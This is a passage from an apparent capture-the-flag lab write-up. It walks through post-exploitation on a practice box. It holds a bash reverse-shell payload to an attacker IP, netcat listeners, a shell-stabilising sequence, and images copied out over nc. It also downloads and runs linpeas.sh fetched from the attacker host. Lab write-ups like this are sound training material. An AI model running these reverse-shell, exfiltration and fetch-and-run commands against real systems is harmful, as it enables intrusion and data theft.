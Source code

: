 * We can get a reverse shell by using the payload ```sh -i >& /dev/tcp/10.10.67.222/4444 0>&1```, setting up a listener using ```nc -nvlp 4444``` and refreshing /review:

  ```sh
  # setup a stable shell
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  export TERM=xterm
  # Ctrl+Z now
  stty raw -echo; fg
  # press Enter key twice

  pwd
  # /var/www/html2

  ls -la
  # we can go through the files here
  # nothing interesting

  cd ..

  ls -la
  # in /var/www/, we have a couple of images
  # we can transfer these images to attacker machine

  # in attacker machine
  nc -nvlp 5555 > reno.jpg

  # in reverse shell
  which nc

  /bin/nc 10.10.67.222 5555 -w 3 < reno.jpg

  # similarly for the other image
  # in attacker machine
  nc -nvlp 5555 > reno2.jpg

  # in reverse shell
  /bin/nc 10.10.67.222 5555 -w 3 < reno2.jpg

  # in between, we get an automated message in shell
  # referring to the box not being rooted yet
  # this could be a process or cron job running somewhere

  ls -la /home

  # we have bob and bobloblaw here
  
  ls -la /home/bob
  # this is the ftp share

  ls -la /home/bobloblaw
  # access denied

  # we can check with linpeas for enumeration
  # host linpeas.sh on attacker machine

  # in reverse shell
  wget http://10.10.67.222:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  ```
